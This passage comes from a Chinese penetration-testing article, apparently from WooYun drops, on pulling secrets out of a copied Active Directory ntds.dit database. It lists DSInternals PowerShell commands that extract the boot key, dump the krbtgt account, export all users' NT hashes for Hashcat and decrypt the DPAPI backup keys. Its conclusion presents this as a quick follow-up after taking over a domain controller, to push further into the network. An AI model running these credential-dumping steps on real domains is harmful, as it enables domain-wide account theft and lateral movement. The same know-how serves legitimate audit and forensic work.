     
    
    $key = Get-BootKey -SystemHivePath 'C:\Users\a\Desktop\a\SYSTEM'
    
    Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=test,DC=local'  -DBPath 'C:\Users\a\Desktop\a\ntds.dit' -BootKey $key
    

如图

![这里写图片描述](http://static.wooyun.org//drops/20151104/2015110402275699373.net/20151029185622052)

## 4、导出支持Hashcat的NT hash

    
    
    Get-ADDBAccount -All -DBPath 'C:\Users\a\Desktop\a\ntds.dit' -BootKey $key | Format-Custom -View HashcatNT | Out-File hashes.txt
    

如图

![这里写图片描述](http://static.wooyun.org//drops/20151104/2015110402275679519.net/20151029185122157)

## 5、导出DPAPI backup keys

**（1）**获得BootKey
    
    
    Get-BootKey -SystemHiveFilePath 'C:\Users\a\Desktop\a\SYSTEM'
    得到c76034ff820edbc012308a258faf3d26
    

如图

![这里写图片描述](http://static.wooyun.org//drops/20151104/2015110402275675054.net/20151029185132250)

**（2）**解密得到DPAPI backup keys
    
    
    Get-ADDBBackupKey -DBPath 'C:\Users\a\Desktop\a\ntds.dit'  -BootKey c76034ff820edbc012308a258faf3d26 |  Format-List
    

**（3）**导出到文件
    
    
    Get-ADDBBackupKey -DBPath 'C:\Users\a\Desktop\a\ntds.dit' -BootKey c76034ff820edbc012308a258faf3d26 | Save-DPAPIBlob -DirectoryPath .\Keys
    

## 6、Hash计算

    
    
    $pwd = ConvertTo-SecureString 'TestTest' -AsPlainText -Force
    ConvertTo-NTHash $pwd
    ConvertTo-LMHash $pwd
    ConvertTo-OrgIdHash -NTHash 'd280553f0103f2e643406517296e7582'
    

如图

![这里写图片描述](http://static.wooyun.org//drops/20151104/2015110402275645429.net/20151029185143112)

# 0x05 小结

* * *

随着技术的发展，效率一直在提高

在获取域控权限下，导出所有用户hash的方法越来越简便，当域控被攻陷后，可以在很短的时间内提取出有用的信息用来进一步渗透，内网渗透将会越来越有趣。

本文由三好学生原创并首发于乌云drops，转载请注明


